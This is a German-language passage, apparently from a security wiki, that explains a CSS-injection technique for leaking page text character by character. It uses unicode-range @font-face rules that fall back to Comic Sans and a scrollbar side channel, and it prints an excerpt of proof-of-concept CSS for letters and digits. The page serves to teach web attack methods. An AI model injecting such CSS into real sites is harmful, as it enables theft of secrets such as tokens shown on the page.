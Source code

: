 1. **Präfix**: Die erste Zeile.
2. **Suffix**: Die nachfolgende(n) Zeile(n).

Die Übergangsphasen der Zeichen würden wie folgt erscheinen:

**C**\
ADB

**CA**\
DB

**CAD**\
B

**CADB**


Während dieses Übergangs wird der **unicode-range-Trick** verwendet, um jedes neue Zeichen zu identifizieren, während es dem Präfix beitritt. Dies wird erreicht, indem die Schriftart auf Comic Sans gewechselt wird, die deutlich höher ist als die Standard-Schriftart, was eine vertikale Bildlaufleiste auslöst. Das Erscheinen dieser Bildlaufleiste offenbart indirekt die Anwesenheit eines neuen Zeichens im Präfix.

Obwohl diese Methode die Erkennung einzigartiger Zeichen ermöglicht, während sie erscheinen, gibt sie nicht an, welches Zeichen wiederholt wird, sondern nur, dass eine Wiederholung stattgefunden hat.

{% hint style="info" %}
Im Grunde wird der **unicode-range verwendet, um ein Zeichen zu erkennen**, aber da wir keine externe Schriftart laden wollen, müssen wir einen anderen Weg finden.\
Wenn das **Zeichen** **gefunden** wird, erhält es die vorinstallierte **Comic Sans-Schriftart**, die das Zeichen **größer** macht und eine Bildlaufleiste **auslöst**, die das **gefunden Zeichen** **leakt**.
{% endhint %}

Überprüfen Sie den aus der PoC extrahierten Code:
```css
/* comic sans is high (lol) and causes a vertical overflow */
@font-face{font-family:has_A;src:local('Comic Sans MS');unicode-range:U+41;font-style:monospace;}
@font-face{font-family:has_B;src:local('Comic Sans MS');unicode-range:U+42;font-style:monospace;}
@font-face{font-family:has_C;src:local('Comic Sans MS');unicode-range:U+43;font-style:monospace;}
@font-face{font-family:has_D;src:local('Comic Sans MS');unicode-range:U+44;font-style:monospace;}
@font-face{font-family:has_E;src:local('Comic Sans MS');unicode-range:U+45;font-style:monospace;}
@font-face{font-family:has_F;src:local('Comic Sans MS');unicode-range:U+46;font-style:monospace;}
@font-face{font-family:has_G;src:local('Comic Sans MS');unicode-range:U+47;font-style:monospace;}
@font-face{font-family:has_H;src:local('Comic Sans MS');unicode-range:U+48;font-style:monospace;}
@font-face{font-family:has_I;src:local('Comic Sans MS');unicode-range:U+49;font-style:monospace;}
@font-face{font-family:has_J;src:local('Comic Sans MS');unicode-range:U+4a;font-style:monospace;}
@font-face{font-family:has_K;src:local('Comic Sans MS');unicode-range:U+4b;font-style:monospace;}
@font-face{font-family:has_L;src:local('Comic Sans MS');unicode-range:U+4c;font-style:monospace;}
@font-face{font-family:has_M;src:local('Comic Sans MS');unicode-range:U+4d;font-style:monospace;}
@font-face{font-family:has_N;src:local('Comic Sans MS');unicode-range:U+4e;font-style:monospace;}
@font-face{font-family:has_O;src:local('Comic Sans MS');unicode-range:U+4f;font-style:monospace;}
@font-face{font-family:has_P;src:local('Comic Sans MS');unicode-range:U+50;font-style:monospace;}
@font-face{font-family:has_Q;src:local('Comic Sans MS');unicode-range:U+51;font-style:monospace;}
@font-face{font-family:has_R;src:local('Comic Sans MS');unicode-range:U+52;font-style:monospace;}
@font-face{font-family:has_S;src:local('Comic Sans MS');unicode-range:U+53;font-style:monospace;}
@font-face{font-family:has_T;src:local('Comic Sans MS');unicode-range:U+54;font-style:monospace;}
@font-face{font-family:has_U;src:local('Comic Sans MS');unicode-range:U+55;font-style:monospace;}
@font-face{font-family:has_V;src:local('Comic Sans MS');unicode-range:U+56;font-style:monospace;}
@font-face{font-family:has_W;src:local('Comic Sans MS');unicode-range:U+57;font-style:monospace;}
@font-face{font-family:has_X;src:local('Comic Sans MS');unicode-range:U+58;font-style:monospace;}
@font-face{font-family:has_Y;src:local('Comic Sans MS');unicode-range:U+59;font-style:monospace;}
@font-face{font-family:has_Z;src:local('Comic Sans MS');unicode-range:U+5a;font-style:monospace;}
@font-face{font-family:has_0;src:local('Comic Sans MS');unicode-range:U+30;font-style:monospace;}
@font-face{font-family:has_1;src:local('Comic Sans MS');unicode-range:U+31;font-style:monospace;}
@font-face{font-family:has_2;src:local('Comic Sans MS');unicode-range:U+32;font-style:monospace;}
@font-face{font-family:has_3;src:local('Comic Sans MS');unicode-range:U+33;font-style:monospace;}
@font-face{font-family:has_4;src:local('Comic Sans MS');unicode-range:U+34;font-style:monospace;}
```